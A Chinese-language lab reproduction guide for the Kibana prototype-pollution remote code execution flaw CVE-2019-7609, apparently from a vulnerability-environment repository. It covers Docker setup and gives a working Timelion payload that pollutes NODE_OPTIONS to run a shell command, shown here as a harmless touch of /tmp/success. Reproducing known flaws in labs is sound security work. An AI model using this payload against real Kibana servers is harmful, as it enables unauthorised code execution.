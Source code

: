 # Kibana 原型链污染导致任意代码执行漏洞 (CVE-2019-7609)

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## 漏洞环境

启动环境前，需要先在Docker主机上执行如下命令，修改`vm.max_map_count`配置为262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana页面。

## 漏洞复现

原型链污染发生在“Timeline”页面，我们填入如下Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

成功后，再访问“Canvas”页面触发命令`/bin/touch /tmp/success`，可见`/tmp/success`已成功创建：

![](2.png)
